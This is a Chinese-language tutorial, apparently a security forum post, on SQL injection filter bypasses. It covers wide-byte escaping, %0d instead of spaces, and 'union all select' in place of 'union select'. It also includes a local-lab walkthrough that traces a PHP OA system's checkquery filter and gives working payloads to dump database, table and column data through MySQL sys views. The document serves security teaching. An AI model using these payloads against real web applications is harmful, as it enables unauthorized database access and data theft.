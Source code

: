 SQL注入绕过  
注入绕过  
绕过单（双）引号转义注入  
常见的转义函数  
使用宽字节绕过，在使用单（双）引号注入时，在其前面加入“%df”与即将产生的“%25”（/）转义符编码成为一个宽字节字符从而成功吃掉转义符，释放单（双）引号成功注入。  
如select  *from test where id=’1’  
Payload: id=1%df’ order by 3#  
注入语句被转义为：select*  from test where id=’1%df%25’ order by 3#’  
这里的order by 部分即可以由我们控制从而进行爆库等操作。

过滤空格使用%0d进行绕过  
如select  *from test where id=’1’  
Payload:id=1’%0dorder%0dby%0d3#  
注入语句为：select*  from test where id=’1’ %0dorder%0dby%0d3#  
通过%0d将空格进行替换成功注入完整的sql注入语句

常用函数  
（1）and 等价于 &amp;&amp;  
（2）or 等价于 ||  
（3）union select 等价于 union all select  
（4）ascii()函数返回字符串的ascii值  
（5）length（）函数返回字符串的长度  
（6）substr(x,y,z)函数，取x字符串的y到z位进行返回

获取数据库名称的方法介绍  
（1） 使用database()函数直接返回数据库名  
（2） Id=1’ and (select count(\*) from xxx)&gt;0 and ‘1’=’1当查询的xxx表不存在时返回的错误信息为某某数据库的xxx表不存在，既可以得到数据库的名称。  
数据库系统中的特定数据库介绍  
（1）mysql数据库的information\_schema库介绍  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2b89529124f64dadfb42b3a06ef98875612dab20.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-2b89529124f64dadfb42b3a06ef98875612dab20.png)  
其中的TABLES表保存了整个数据库系统的数据库与对应的表名，即是在该表中可以通过数据库名查询到其所有的表名  
COLUMNS表保存了所有的表的所有列名，通过对应的表名查询到该表的所有列名

（2）针对MySQL5.6或更高的版本  
在注入时可以使用sys默认库中的视图代替information\_schema数据库的作用  
查看sys库的视图  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-204b7b8fc85efe78d1daae390f066b9d826d4ad8.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-204b7b8fc85efe78d1daae390f066b9d826d4ad8.png)  
在该视图中的table\_schema与table\_name分别为数据库名字以及该数据库所拥有的表名

绕过常见过滤函数进行注入  
工具  
Phpstudy  
Seay  
实践过程  
（1） 使用phpstudy搭建目标环境并手工测试发现注入点  
通过手工测试发现在多个位置下可能存在了sql注入  
报错地址1，需要登录  
[http://127.0.0.1:8085/manage/qingjia.php?action=list&amp;page=1&amp;limit=15&amp;suserxm=&amp;sniandu=1&amp;smudidi=&amp;sjiabie](http://127.0.0.1:8085/manage/qingjia.php?action=list&page=1&limit=15&suserxm=&sniandu=1&smudidi=&sjiabie)=  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7cdb4580d0cea882e1ccade5a5f04572941e4884.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7cdb4580d0cea882e1ccade5a5f04572941e4884.png)  
在sniandu=1后面添加单引号报错  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-dbb46720da595e80c6e0c6106d2cd0346e3011b7.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-dbb46720da595e80c6e0c6106d2cd0346e3011b7.png)

报错地址2，不需要登录的地址：  
[http://127.0.0.1:8085/Api/getlist.php?action=zidian&amp;fenlei=%E6%94%BF%E6%B2%BB%E9%9D%A2%E8%B2%8C](http://127.0.0.1:8085/Api/getlist.php?action=zidian&fenlei=%E6%94%BF%E6%B2%BB%E9%9D%A2%E8%B2%8C)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f56bd4d3af13ea5906cd05a3bdc45e1badf246f2.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f56bd4d3af13ea5906cd05a3bdc45e1badf246f2.png)  
在分类后面添加单引号报错  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-992207d29c61e33fae8b20a3b8a4a64adc1881b2.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-992207d29c61e33fae8b20a3b8a4a64adc1881b2.png)

（2） 在看到报错以后看到了希望，便使用sqlmap来跑一波，奈何显示存在注入却无法得到数据。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1c4d6fb0447b020d929df82c9483f11f271e2990.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-1c4d6fb0447b020d929df82c9483f11f271e2990.png)  
于是猜想存在过滤，使得无法获得数据  
（3） 进行源码分析  
通过跟踪数据包发现输入的fenlei参数直接组合成为数据库的sql语句带入fetchall()方法  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d355b3d2e5523078e580f99c4e7b28e2c8a60bdb.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d355b3d2e5523078e580f99c4e7b28e2c8a60bdb.png)  
跟踪fetchall方法，发现将sql语句使用prepare（）方法进行处理后在返回。继续向上跟踪到prepare（）方法。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d60509e233ce5f80464b7603bc4bd13661a4fd77.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-d60509e233ce5f80464b7603bc4bd13661a4fd77.png)  
找到prepare函数查看得到sqlsafe为使用checkquery过滤过的安全sql语句。继续向上查找checkquery()方法。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e2828cf746c2b0a25c82d61c4736681d6e8c5c5.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e2828cf746c2b0a25c82d61c4736681d6e8c5c5.png)  
找到checkquery（）方法，可以看到该处对输入的sql语句进行了过滤，首先进行一些简单处理。在输入的sql查询语句中检查是否存在禁用的函数，禁用的操作符，以及是否使用了注释等操作符。  
其中定义的禁用的函数，禁用的操作符，以及注释符号分别为  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ef82f913f02072261765986e33b0712e244785c4.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-ef82f913f02072261765986e33b0712e244785c4.png)  
可以看到这里禁用了绝大部分的注入所用的符号及函数操作。  
过滤失误之处  
对引号的过滤存在问题，使得返回报错的信息。  
if (strpos($sql, '/') === false &amp;&amp; strpos($sql, '#') === false &amp;&amp; strpos($sql, '-- ') === false &amp;&amp; strpos($sql, '@') === false &amp;&amp; strpos($sql, '`') === false) {  
$cleansql = preg\_replace("/'(.+?)'/s", '', $sql);  
} else {  
$cleansql = self::stripSafeChar($sql);  
}  
实操绕过进行注入  
爆库名  
Payload：' and (select count(*) from sysobjects)&gt;0 and '1'='1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fc603c20e3e3efc8f5be1c9e2db2919296ca98d9.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-fc603c20e3e3efc8f5be1c9e2db2919296ca98d9.png)  
爆表名，使用union all select 绕过union select 的过滤。  
Payload：' union all select 1,2,3,4,GROUP\_CONCAT(table\_name) from sys.schema\_index\_statistics where table\_schema="db\_oasystem" and '1'='1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4c4791d50240a312bcc7e3ffe50ca7f3890d1e56.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-4c4791d50240a312bcc7e3ffe50ca7f3890d1e56.png)  
判断列数，通过修改倒数第二个select的查询列数报错查看列数  
Payload：' union all select 1,2,3,4,(select 1 from (select 1,2,3,4 union all select*  from tb\_danwei)a limit 1,1) and '1'='1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-af12492b04e42d5a6a739aa4eac65c6c458ef373.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-af12492b04e42d5a6a739aa4eac65c6c458ef373.png)  
获取表中的数据，通过修改GROUP\_CONCAT中自定义的列名获取数据。  
Payload：' union all select 1,2,3,4,GROUP\_CONCAT(z) from (select 1 as 'x',2 as 'y',3 as 'z' union all select \* from tb\_danwei)tpl where '1'='1  
[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-87040c6a109b771c023673500a0901eeaf91b589.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-87040c6a109b771c023673500a0901eeaf91b589.png)  
总结  
本次测试主要的思路为首先发现疑似注入点，在使用常规手段依然获取不到数据的情况下使用特定的一些语句进行数据的注入获取，其中利用到了mysql5.6及更高版本数据库系统下的sys库视图，使用等效函数绕过过滤，以及如何在不知道列名的情况下使用多表联合查询获取数据等。